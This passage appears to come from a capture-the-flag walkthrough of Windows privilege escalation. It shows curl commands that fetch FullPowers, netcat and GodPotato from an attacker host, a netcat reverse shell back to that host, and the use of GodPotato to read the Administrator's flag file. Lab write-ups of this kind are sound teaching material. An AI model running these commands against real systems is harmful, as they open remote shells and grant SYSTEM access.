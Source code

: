```
curl http://10.10.14.30:12345/FullPowers.exe  -o FullPowers.exe
curl http://10.10.14.30:12345/nc64.exe -o nc64.exe
```

- Then execute `FullPowers`:

```
.\FullPowers.exe -c ".\nc64.exe -e powershell 10.10.14.30 14244"
```

- Open netcat port 14244 and check our privilege :v

![img_1.png](img/img_1.png)

## 3.3 System Own

- From our 14244 netcat listener:

```
curl http://10.10.14.30:12345/GodPotato-NET4.exe -o GodPotato-NET4.exe
```

- Then run `GodPotato`:

```
.\GodPotato-NET4.exe -cmd 'cmd /c more C:\Users\Administrator\Desktop\root.txt'
```

- Boom:
